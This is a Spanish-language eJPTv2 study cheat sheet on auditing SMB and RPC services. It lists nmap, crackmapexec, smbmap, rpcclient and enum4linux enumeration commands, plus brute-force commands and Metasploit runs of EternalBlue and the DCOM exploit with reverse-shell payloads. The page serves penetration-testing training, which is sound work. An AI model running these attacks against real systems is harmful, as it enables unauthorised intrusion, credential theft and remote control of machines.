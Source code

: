 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```



# 🔍 Puertos - 139,445 SMB

## 🔍 Auditoría de Puertos 135,139/445 - SMB - RPC

Los puertos 139 y 445 son utilizados por el protocolo SMB (Server Message Block), que permite compartir archivos e impresoras en redes Windows. Debido a su importancia, es un objetivo frecuente en auditorías de seguridad.

## Principales herramientas para auditar servicios SMB

- 🔍 smbclient y smbmap: Interacción con recursos compartidos

- 🔧 rpcclient: Consultas RPC a servidores SMB

- 🛠️ Nmap + Scripts NSE: Enumeración y detección de vulnerabilidades

- 🔨 Metasploit: Módulos específicos para pruebas


## Proceso de auditoría recomendado

- Enumeración inicial con smbclient,smbmap,crackmapexec y Nmap

- Análisis de vulnerabilidades con scripts NSE

- Enumeración detallada con rpcclient

- Post-explotación y montaje de recursos

- Búsqueda de información sensible (en otro módulo)

## Herramientas esenciales para está auditoria:

- Smbclient

- Smbmap

- rpcclient

- Nmap

- Crackmapexec

## Puertos importantes:

- 135 (RPC)

- 445 (SMB)

- 137-139 (NetBIOS)

## Vulnerabilidades comunes:

- EternalBlue

- SMBGhost

- PetitPotam

- SMBleed

----

## 🕵️ Reconocimiento e identificación del Servicio SMB

Determinar la versión del servicio SMB es fundamental para detectar posibles vulnerabilidades. Podemos hacerlo de varias maneras:

```bash
nmap -p 139,445 --script smb-os-discovery <ip_victima>
nmap -p 139,445 --script smb-protocols <ip_victima>
nmap -p 139,445 --script smb-security-mode <ip_victima>
nmap --script "smb-enum-*" -p445 <ip_victima> # Lanzar todos los scripts de reconocimiento.
nmap --script smb-enum-shares -p 139,445 <ip_victima> # Identificación de Recursos Compartidos
nmap --script smb-enum-users -p 139,445 <ip_victima> # Identificación de Recursos Compartidos
```

 💡 Importante: SMBv1 es altamente vulnerable y puede ser explotado con herramientas como EternalBlue.


 ## 🔑 Uso de CrackMapExec para Enumeración de Usuarios y Recursos

```bash
crackmapexec smb <ip> # Realiza un escaneo básico de SMB en el host especificado.
crackmapexec smb <ip> -u '' -p '' --shares # Lista los recursos compartidos sin credenciales mediante una null session.
crackmapexec smb <ip> -u <usuario> -p <password> --shares # Lista los recursos compartidos proporcionando unas credenciales validas.
crackmapexec smb <ip> -u <usuario> -p <password> --users # Enumera los usuarios del sistema SMB del objetivo.
crackmapexec smb <ip> -u <usuario> -p <password> --groups # Lista los grupos de usuarios en la máquina SMB objetivo.
crackmapexec smb <ip> -u <username_wordlsit.txt> -p <'contraseña'> --continue-on-success # Probar para una lista de usuarios una misma contraseña.
```

Estos comando nos permite identificar la versión de SMB, recursos compartidos, usuarios y políticas de seguridad.

## 🔑 Uso de CrackMapExec para fuerza bruta

```bash
crackmapexec smb <ip> -u <username> -p <ruta_wordlist.txt> # Realizamos un ataque de fuerza bruta.
```

## 🔑 Uso de Smbclient y Smbmap para enumeración de usuarios y recursos

SMBMap y Smbclient permiten enumerar recursos compartidos y permisos.

```bash
smbclient -L <ip> -N # Intentamos listas los recursos compartidos con una null session.
smbmap -H <ip> # Realizamos el mismo escaneo que antes, pero esta vez no arrojará información de los permisos que tenemos para cada directorio.
smbclient //<ip>/<recurso> -N # Con este comando accederemos al recurso al que tengamos acceso.
smbmap -H <ip> -r <recurso> # Listamos el contenido del recurso al que apuntamos.
smbclient //<ip>/<recurso> -U <usuario>%<contraseña> # Listamos recursos con credenciales.
smbmap -H <ip> -u <usuario> -p <contraseña> -d <ominio> # Enumeración con credenciales
smbmap -R <carpeta> -H <ip> -A <archivo> -q # Descarga un archivo a tu maquina local.
```

## 💡 Comando útiles cuando consigues acceso:

```bash
dir # Listar contenido 
get <nombre_archivo> # Descargar archivo 
mget *.txt # Descarga múltiples archivos
put <nombre_archivo> # Subir archivo 
cd folder # Cambiar directorio
```

## 🔑 Uso de Metasploit para enumeración de usuarios y recursos

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_version
set RHOSTS <ip_victima>
run
```

## Enumeración de Recursos Compartidos en SMB

```
masconsole -q
use auxiliary/scanner/smb/smb_enumshares 
set RHOSTS <ip_victima> 
run
```

## Ataque EternalBlue (MS17-010) en SMB

```bash
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue 
set RHOSTS <ip_victima> 
set LHOST <tu_ip> 
set LPORT 4444 
exploit
```

## 🔑 Enumeración con Enum4Linux

Enum4linux es una herramienta wrapper que utiliza las utilidades de Samba para enumerar información:

```bash
enum4linux -a <ip> # Enumeración completa.
enum4linux -U <ip> # Enumeración de usuarios.
enum4linux -u <usuario> -p <password> -S <ip> # Enumerar shares con autenticación
enum4linux -a -u "" -p "" <ip> # Enumerar con null session
```

---

## 🔍 Auditoría del Servicio RPC con RPCClient y Metasploit

El puerto 135 (RPC) es un servicio en sistemas Windows que permite la comunicación entre procesos distribuidos. Este puerto es clave en la administración remota.

### 🕵️ Reconocimiento del Servicio RPC (Puerto 135)

```bash
nmap -p 135 --script=rpcinfo <ip_victima> # Identificar versión rpc.
```

## 🔑 Enumeración del Servicio RPC con RPCClient

Conexión al Servicio RPC

```bash
rpcclient -U "" <ip_victima> # Sin credenciales.
rpcclient -U "<usuario>%<contraseña>" <ip_victima> # Con credenciales.
enumdomusers # Enumeración de Usuarios en el Sistema
querygroup # Obtener Información de los Grupos
querydominfo # Identificar el Nombre del Dominio
lsaenumsid # Obtener SID del Dominio
```

El comando **rpcclient** de Samba nos permite interactuar con el servicio RPC para extraer información sobre el sistema Windows.

## 🚀 Ataques al Servicio RPC con Metasploit

Escaneo de Servicios RPC con Metasploit

```bash
msfconsole -q
use auxiliary/scanner/dcerpc/endpoint_mapper
set RHOSTS <ip_victima>
exploit
```

🎯 Explotación del Servicio RPC

```bash
use exploit/windows/dcerpc/ms03_026_dcom 
set RHOSTS <ip_victima> 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST <tu_ip> 
set LPORT 4444 
exploit
```


🛠️ Ataque de Fuerza Bruta en SMB con Hydra

```bash
hydra -L <diccionario_usuarios.txt> -P <diccionario_passwords.txt> smb://<ip_victima>
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
